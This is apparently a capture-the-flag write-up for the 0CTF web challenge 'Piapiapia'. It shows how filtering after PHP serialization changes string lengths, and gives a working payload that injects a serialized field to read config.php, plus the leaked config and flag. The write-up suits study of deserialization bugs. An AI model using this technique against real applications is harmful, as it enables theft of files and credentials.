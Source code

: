 ## Piapiapia (Web, 6p)
	
###ENG
[PL](#pl-version)

We get a page and its source. It looks like flag is stored inside config.php.
All inputs seem pretty well validated but 'nickname' doesn't handle arrays well.
Validation is skipped when passed as 'nickname[]='.

SQL injection will be hard, as all backslashes and "unsafe" words are removed:
```php
function filter($string) {
	$escape = array('\'', '\\\\');
	$escape = '/' . implode('|', $escape) . '/';
	$string = preg_replace($escape, '_', $string);

	$safe = array('select', 'insert', 'update', 'delete', 'where');
	$safe = '/' . implode('|', $safe) . '/i';
	return preg_replace($safe, 'hacker', $string);
}
```
The problem is, it's sanitized *after* being serialized:
```php
$user->update_profile($username, serialize($profile));

public function update_profile($username, $new_profile) {
	$username = parent::filter($username);
	$new_profile = parent::filter($new_profile);

	$where = "username = '$username'";
	return parent::update($this->table, 'profile', $new_profile, $where);
}
```

Replacing "where" with "hacker" changes the length of the string.
Allowing us to replace part of serialized object with our content.
We replace photo file name with "config.php":
```php
$payload = "\";}s:5:\"photo\";s:10:\"config.php\";}\";";
$POST['nickname[]'] = str_repeat("where", strlen($payload)).$payload;
```
After this, "config.php" is returned as base64 encoded data uri:
```php
<?php
	  $config['hostname'] = '127.0.0.1';
	  $config['username'] = '0ctf';
	  $config['password'] = 'oh-my-**-web';
	  $config['database'] = '0CTF_WEB';
	  $flag = '0ctf{fa717b49649fbb9c0dd0d1663469a871}';
?>
```
###PL version
